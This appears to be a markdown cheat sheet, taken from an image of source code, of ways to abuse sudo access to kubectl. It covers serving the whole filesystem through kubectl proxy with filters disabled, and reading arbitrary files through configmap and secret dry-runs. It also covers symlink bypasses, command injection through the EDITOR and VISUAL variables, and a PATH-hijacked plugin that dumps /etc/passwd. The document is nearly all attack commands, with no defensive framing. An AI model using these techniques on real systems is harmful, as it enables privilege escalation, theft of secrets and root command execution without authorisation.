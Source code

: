 
## 1. File Serving Vectors

```bash
# Basic file server
sudo kubectl proxy --address=0.0.0.0 --port=PORT --www=PATH --www-prefix=/x/

# Bypass filters
sudo kubectl proxy --www=PATH --www-prefix=/x/ --disable-filter=true

# Serve filesystem root
sudo kubectl proxy --www=/ --www-prefix=/x/

# Access via wget
wget -qO- http://localhost:PORT/x/target/file
```

---

## 2. File Reading Techniques

```bash
# ConfigMap creation (dry-run)
sudo kubectl create configmap test --from-file=TARGET --dry-run=client -o yaml

# Secret creation 
sudo kubectl create secret generic test --from-file=TARGET --dry-run=client -o yaml

# Apply with validation
sudo kubectl apply --validate=false --dry-run=client -f TARGET

# File conversion
sudo kubectl convert -f TARGET
```

---

## 3. Symlink Bypasses

```bash
ln -sf /target/file /writable/location
ln -sf /target/directory /accessible/path
```

---

## 4. Environment Variable Abuse

```bash
# Editor hijacking
export EDITOR="id; vi"
sudo kubectl edit resource

# VISUAL
export VISUAL="payload; nano"

# Path manipulation for plugins
echo '#!/bin/sh\ncat /etc/passwd' > /tmp/kubectl-custom
chmod +x /tmp/kubectl-custom
PATH=/tmp:$PATH sudo kubectl custom
```

---